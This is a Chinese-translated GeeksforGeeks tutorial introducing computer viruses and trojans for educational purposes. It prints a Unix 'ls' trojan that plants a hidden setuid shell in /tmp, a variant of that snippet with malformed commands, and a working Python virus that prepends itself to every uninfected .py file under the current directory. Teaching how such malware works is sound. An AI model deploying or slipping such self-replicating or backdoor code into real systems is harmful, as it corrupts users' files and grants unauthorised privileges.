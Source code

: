 # 病毒——从新手到专业人士

> 原文:[https://www.geeksforgeeks.org/viruses-from-newbie-to-pro/](https://www.geeksforgeeks.org/viruses-from-newbie-to-pro/)

*注意:使用在线编译器在这里行不通。请安装 Python 2.7x 和 cv2，argparse 模块来实际尝试这个例子。*

嗨，朋友们！欢迎回来！在继续恶意逻辑之前，我请求你看一下这篇伟大的、信息丰富的文章[蠕虫、病毒和超越](https://www.geeksforgeeks.org/worms-viruses-and-beyond/)！！

现在，本文将更多地关注应用程序，而不是计算机病毒、蠕虫和特洛伊木马的理论。

*但是，请注意，本文仅用于教育目的。**本人绝不推广使用病毒、蠕虫或木马攻击计算机系统并造成损害。**T3】*

恶意逻辑是导致违反网站/程序/应用程序等安全策略的一组指令(基本上是一个程序)。

**UNIX 脚本**

```
    cp /bin/sh /tmp/.xxsh
    chmod u+s,o+x /tmp/.xxsh
    rm ./ls
    ls $*

```

在这个例子中，我们假设。位于路径环境中，脚本名为 ls，位于目录中。

**分析脚本**

这个脚本创建了一个 UNIX Shell 的副本，它是执行这个程序的用户的 setuid。要理解 setuid 程序，我们首先需要了解用户身份在 UNIX 操作系统中是如何存储的。

在 UNIX 操作系统中，用户标识通常表示为 0 到 65，535 之间的整数。这个号码也被称为 UID(唯一识别号码)。现在，setuid 程序所做的是用所有者的 uid 而不是执行程序的第三方的 UID 来创建进程。这意味着，执行人将拥有所有者的权利……这本身就是一个可能的漏洞。

回到我们的脚本，因此创建了 UNIX shell 的 setuid 副本。稍后，删除该程序，然后执行正确的 ls 命令(用于列出当前工作目录中的文件和文件夹)。

**木马**

回到上一个脚本…假设有人(根)键入:

```
    cp /bin/sh /tmp/.xxsh
    chmod o+s,w+x /tmp.xxsh

```

如果脚本是故意键入的，那么它将导致特洛伊木马。

**病毒–一种基本格式**

大多数计算机病毒遵循以下基本脚本:

```
Beginvirus
if spread-condition TRUE then begin
    for the target files begin
       if target affected TRUE then begin
          Determine where to place virus instructions
          Copy the virus instructions
          Modify target to spread the virus later
       End if
    End for
End if
Perform some other instruction(s) //Optional
Go back to beginning
Endvirus

```

基本上，每种计算机病毒都有两个阶段——

1.  插入阶段——在这个阶段，病毒将自己插入目标体内。
2.  执行阶段——在这个阶段，病毒会执行一些动作。

让我们来看看 Python 中的一个真实病毒。现在这不是一个真正的病毒，它会导致文件损坏，系统文件删除等。**不过只是一种简单无害的病毒。**

```
#!/usr/bin/python 
import os, datetime, inspect 
DATA_TO_INSERT = "GEEKSFORGEEKS"

#search for target files in path
def search(path):  
    filestoinfect = [] 
    filelist = os.listdir(path) 
    for filename in filelist: 

        #If it is a folder
        if os.path.isdir(path+"/"+filename):  
            filestoinfect.extend(search(path+"/"+filename)) 

        #If it is a python script -> Infect it    
        elif filename[-3:] == ".py":

            #default value
            infected = False  
            for line in open(path+"/"+filename): 
                if DATA_TO_INSERT in line: 
                    infected = True
                    break
            if infected == False: 
                filestoinfect.append(path+"/"+filename) 
    return filestoinfect 

#changes to be made in the target file 
def infect(filestoinfect): 
    target_file = inspect.currentframe().f_code.co_filename 
    virus = open(os.path.abspath(target_file)) 
    virusstring = "" 
    for i,line in enumerate(virus): 
        if i>=0 and i <41: 
            virusstring += line 
    virus.close 
    for fname in filestoinfect: 
        f = open(fname) 
        temp = f.read() 
        f.close() 
        f = open(fname,"w") 
        f.write(virusstring + temp) 
        f.close() 

#Not required actually        
def explode(): 
    if datetime.datetime.now().month == 4 and datetime.datetime.now().day == 1: 
            print ("HAPPY APRIL FOOL'S DAY!!")
filestoinfect = search(os.path.abspath("")) 
infect(filestoinfect) 
explode() 
```

现在，这是一个相当安全的病毒但是，基本格式和工作原理是一样的。

此外，还有各种类型的计算机病毒——引导区感染病毒、可执行感染病毒、多部分病毒、TSR 病毒、隐形病毒、加密病毒、多态病毒、宏病毒。

现在，我不再赘述，就讲到这里。那都是从我这边来的！

**关于作者:**

**维斯韦什·施里马里**是 BITS Pilani 的机械工程本科生。他满足了 [![vish](http://d1gjlxt8vb0knt.cloudfront.net//wp-content/uploads/vish-100x100.png)](http://d1gjlxt8vb0knt.cloudfront.net//wp-content/uploads/vish.png) 所有在他的分支机构中没有教授的要求——白帽黑客、网络安全操作员和前竞争性程序员。作为 Python 力量的坚定信仰者，他的大部分作品都是同一种语言。每当他除了编程、上课、看 CSI Cyber 之外有时间的时候，他都会去散步，默默地弹吉他。他的人生格言是——“享受你的生活，因为它值得享受！”

**如果你也想在这里展示你的博客，请查看[博客](http://geeksquiz.com/gblog/)在极客博客上的客座博文。**